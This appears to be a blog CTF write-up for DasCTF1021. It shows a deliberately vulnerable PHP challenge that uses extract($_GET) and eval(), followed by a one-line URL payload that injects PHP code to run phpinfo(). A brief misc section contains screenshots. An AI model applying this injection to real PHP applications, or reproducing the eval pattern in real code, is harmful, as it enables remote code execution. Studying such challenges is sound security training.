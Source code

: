 ```yaml
---
title: "DasCTF1021 Wp"
slug: "dasctf1021-wp"
description: "misc杯，web狗润了"
date: 2021-10-24T16:47:40+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## Web/迷路的魔法少女

> 魔法少女迷失在了代码空间 请寻找她现在在哪

```php
<?php
highlight_file('index.php');

extract($_GET);
error_reporting(0);
function String2Array($data)
{
    if($data == '') return array();
    @eval("\$array = $data;");
    return $array;
}


if(is_array($attrid) && is_array($attrvalue))
{
        $attrstr .= 'array(';
        $attrids = count($attrid);
        for($i=0; $i<$attrids; $i++)
        {
            $attrstr .= '"'.intval($attrid[$i]).'"=>'.'"'.$attrvalue[$i].'"';
            if($i < $attrids-1)
            {
                $attrstr .= ',';
            }
        }
        $attrstr .= ');';
}

String2Array($attrstr);

```

```
/?attrid[]=&attrvalue[]=");phpinfo();//
```

![image-20211024120107148](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024120107148.png)

参考：[CG-CTF 变量覆盖(PHP extract函数利用)](https://blog.csdn.net/zz_Caleb/article/details/88671071)  |  [CTF-PHP黑魔法](https://lddp.github.io/2018/11/28/CTF-PHP%E9%BB%91%E9%AD%94%E6%B3%95/)

## Misc/WELCOME DASCTFxJlenu

> 欢迎来到魔法的世界（签到）

可是有几层包浆的原题了属于是，之前绝对做过一次

![image-20211024105141498](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024105141498.png)

![image-20211024105144295](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024105144295.png)